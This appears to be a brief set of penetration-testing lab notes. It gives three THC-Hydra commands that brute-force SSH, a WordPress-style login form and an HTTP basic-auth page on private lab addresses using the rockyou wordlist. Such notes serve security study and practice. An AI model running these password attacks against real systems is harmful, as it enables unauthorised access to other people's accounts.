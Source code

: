 
### SSH Attack with THC-Hydra

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt 10.2.2.150 ssh
```

### HTTP POST Attack with THC-Hydra

```bash
hydra 192.168.237.52 http-form-post "/form/frontpage.php:log=offsec&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.237.52%2Fwp-admin%2F&testcookie=1:Unknown username." -L users.txt -P /usr/share/wordlists/rockyou.txt -vV 
```

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.237.52 http-get /manual
```